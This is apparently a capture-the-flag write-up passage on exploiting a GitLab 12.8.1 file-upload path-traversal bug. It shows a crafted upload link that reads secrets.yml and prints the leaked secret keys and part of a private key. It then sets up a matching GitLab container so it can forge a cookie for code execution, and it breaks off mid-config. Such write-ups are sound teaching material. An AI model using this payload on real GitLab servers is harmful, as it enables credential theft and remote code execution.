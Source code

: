 So as described in the [bug bounty report](https://hackerone.com/reports/827052)
we create two projects, one with an issue description containing the following
link and we move it to the second project.

    :::text
    ![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)


That allow us to get the file content.

    :::text
    # This file is managed by gitlab-ctl. Manual changes will be
    # erased! To change the contents below, edit /etc/gitlab/gitlab.rb
    # and run `sudo gitlab-ctl reconfigure`.

    ---
    production:
      db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
      secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
      otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
      openid_connect_signing_key: |
        -----BEGIN RSA PRIVATE KEY-----
        MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
        <SNIP>

We need a gitlabshell to create the cookie that will allow use to execute the
code on the box. We also need the same version as the one on the box.

Using docker and some [article]([https://www.howtoforge.com/how-to-install-gitlab-with-docker-on-ubuntu-2004)
we create a `docker-compose.yml` that looks as follow.

    :::text
    web:
      image: 'gitlab/gitlab-ce:12.8.1-ce.0'
      restart: always
      hostname: 'gitlab.hakase-labs.io'

      environment:
        GITLAB_OMNIBUS_CONFIG: |
          # Add any other gitlab.rb configuration here, each on its own line
          #external_url 'https://gitlab.hakase-labs.io'
          gitlab_rails['gitlab_shell_ssh_port'] = 2224
          #nginx['redirect_http_to_https'] = true
          #nginx['ssl_certificate'] = "/etc/gitlab/ssl/fullchain.pem"
          #nginx['ssl_certificate_key'] = "/etc/gitlab/ssl/privkey.pem"
          #nginx['ssl_dhparam'] = "/etc/gitlab/ssl/dhparams.pem"
